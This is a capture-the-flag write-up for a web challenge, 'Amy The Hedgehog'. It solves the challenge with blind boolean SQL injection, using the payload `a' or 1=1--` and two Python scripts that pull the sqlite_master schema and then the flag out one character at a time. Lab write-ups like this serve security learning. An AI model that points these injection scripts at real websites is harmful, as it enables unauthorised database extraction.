 # Amy The Hedgehog
![](https://img.shields.io/badge/category-web-blue)
![](https://img.shields.io/badge/solves-80-orange)

## Description
Hi guys! I just learned sqlite3 build my own websiteeee. Come visit my [my website](http://litctf.live:31770/) pleaseeee i am ami the dhedghog!!! :3 ( ◡‿◡ *)

## Solution
Checking out the website, it's just a simple text input. The question does mention sqlite3, suggesting a SQL injection attack.

Indeed, the inputs `a` and `a' or 1=1--` trigger different results.

![image](https://user-images.githubusercontent.com/62577178/182046557-06d15999-7743-4fa8-97dd-33cb8516f6c5.png)
![image](https://user-images.githubusercontent.com/62577178/182046550-411e6222-e7eb-4f56-ad98-fd5a0f217e0e.png)

It seems like when the query returns at least 1 record (i.e. it is true), we get the second response. If it's false, we get the first response. Using this knowledge, we can run a boolean SQL injection attack.

The likely commands that were issued to create this database are:
```sql
CREATE TABLE table_name (field_name text, ...optional fields);
INSERT INTO table_name (field_name, ...optionals) VALUES("flag", ...optionals);
```

We first need to enumerate the SQL query used to create the table. Because the question says that the database backend is sqlite3, the SQL used to create every table is stored in the `sql` field of `sqlite_master`.

```py
import requests

url = "http://litctf.live:31770/"

sql = ""
j = len(sql)+1
while True:
 for i in range(ord(' '), 128):
  print(sql+chr(i))
  inj = f"a' UNION SELECT sql FROM sqlite_master WHERE substr(sql, {j}, 1)='{chr(i)}'--"
  data = {"name": inj}
  res = requests.post(url, data=data)
  if 'correct' in res.text:
    sql += chr(i)
    j += 1
```
This reveals that the table was created with `CREATE TABLE names (name text)`.

From here, we can modify the script a little bit to have it leak the flag from the `names` table.

```py
import requests

url = "http://litctf.live:31770/"

flag = "LITCTF{"
j = len(flag)+1
while True:
 for i in range(ord(' '), 128):
  print(flag+chr(i))
  inj = f"a' UNION SELECT name FROM names WHERE substr(name, {j}, 1)='{chr(i)}'--"
  data = {"name": inj}
  res = requests.post(url, data=data)
  if 'correct' in res.text:
    flag += chr(i)
    j += 1
 ```

Flag: `LITCTF{sldjf}`
